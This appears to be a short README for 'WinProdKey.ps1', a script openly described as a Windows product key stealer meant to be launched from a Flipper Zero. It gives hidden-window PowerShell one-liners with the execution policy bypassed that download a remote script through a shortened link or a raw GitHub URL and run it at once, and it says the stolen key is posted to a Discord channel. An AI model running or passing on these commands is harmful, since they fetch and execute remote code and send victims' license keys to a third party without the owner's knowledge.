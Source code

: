 # WinProdKey.ps1
Hosting for WinProdKey.ps1 (Script for Windows Product Stiller for Flipper Zero script modified by me)

PRODUCT KEY WILL APPEAR [HERE(https://discord.gg/uYYD6Ysm8P)] (In #product-key-stiller)

Win + R command: powershell -w h -ep bypass "irm https://bit.ly/49SFZ7f | iex" or:

powershell -w h -ep bypass "irm https://raw.githubusercontent.com/nazarhktwitch/WinProdKey.ps1/refs/heads/main/WinProdKey.ps1 | iex"

Or just use payload (For Flipper Zero)
